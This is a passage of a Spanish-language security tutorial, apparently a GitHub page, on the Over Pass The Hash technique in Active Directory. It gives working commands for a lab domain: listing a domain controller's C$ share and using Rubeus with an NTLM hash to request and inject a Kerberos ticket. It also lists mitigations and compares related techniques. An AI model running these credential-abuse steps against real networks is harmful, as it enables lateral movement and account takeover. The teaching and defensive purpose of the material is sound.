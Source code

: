 #### Paso 4️⃣: Acceso a recursos del dominio

Con ese ticket Kerberos, puedes acceder a recursos como:

```cmd
dir \\dc.hack.local\C$
```

O usar `PsExec`, `WinRM`, `ldapsearch`, o incluso ataques como **Kerberoasting** o **DCSync** si tienes permisos.

---

### ✅ Ejemplo usando Rubeus (más técnico)

1. Descarga y compila `Rubeus` o usa una versión precompilada.
2. Ejecuta:

```powershell
Rubeus.exe asktgt /user:gustavo /domain:hack.local /rc4:32ed87bdb5fdc5e9cba88547376818d4 /ptt
```

📌 Esto automáticamente **pide el TGT y lo inyecta (ptt = Pass The Ticket)** en la sesión actual.

3. Confirma con:

```powershell
klist
```

---

### 🛡 ¿Cómo mitigar Over Pass The Hash?

1. **Protege los hashes NTLM**: Usa LSA Protection (`RunAsPPL`) para proteger `lsass.exe`.
2. **Usa cuentas de administración separadas**.
3. **Evita que cuentas privilegiadas inicien sesión en estaciones vulnerables**.
4. **Audita tickets Kerberos y accesos** con herramientas como Microsoft ATA, Defender for Identity, etc.
5. **Aplica monitoreo de klist, sekurlsa y pth en EDRs**.

---

### 📚 Resumen

| Técnica                | Usa NTLM Hash | Usa Kerberos | Herramienta común    |
| ---------------------- | ------------- | ------------ | -------------------- |
| **Pass The Hash**      | ✅ Sí         | ❌ No        | `psexec`, `mimikatz` |
| **Over Pass The Hash** | ✅ Sí         | ✅ Sí        | `mimikatz`, `rubeus` |
| **Pass The Ticket**    | ❌ No         | ✅ Sí        | `kerberos::ptt`      |

---

[🔼](#índice)

---